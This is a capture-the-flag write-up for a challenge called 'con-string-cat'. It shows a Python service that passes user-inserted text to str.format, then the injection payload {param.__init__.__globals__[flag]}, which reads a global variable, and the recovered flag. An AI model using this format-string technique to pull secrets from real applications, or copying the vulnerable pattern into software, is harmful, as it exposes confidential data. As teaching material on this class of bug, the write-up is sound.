


# con-string-cat
> attach.......to get universe

## About the Challenge
We were given a server to connect and the source code
```
nc chall.foobar.nitdgplug.org 30011
```
And here is the source code (You can get the source code [here](chall.py))
```python
flag = open('flag.txt').read()

class foobar:
    def __init__(self, uname):
        self.uname = uname

    def display(self):
        print(self.uname)

foo = foobar("welcome_to_foobarctf")

def resolver(template, resolv):
    return template.format(param = resolv)

text = "This is for u :) {param}"

offset = int(input("enter the offset: "))
string_to_insert = input("enter string to insert: ")

if offset > len(text):
    print("invalid input")
else:
    text = text[0:offset] + string_to_insert + text[offset:]
    print(resolver(text, foo))
```

When we run the program, we need to input 2 things, the offset and the string. For example if I input 1 and the string is daffainfo:



## How to Solve?
After doing some research about `format` in python, I found there is 1 vulnerability that can happen by using `format`. We can access attribute object using `str.format` (You can check the reference [here](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/))

So, I input 24 as offset (You can input anything from 1 - 25, but I prefer 24 so we can read the flag easilty) And I input this as the string

```
{param.__init__.__globals__[flag]}
```

So, I tried to access the `flag` variable from the global namespace of the `__init__` function's module, using the `__globals__` attribute of the function.



```
GLUG{7h3_Univ3r$@l_fl@g}
```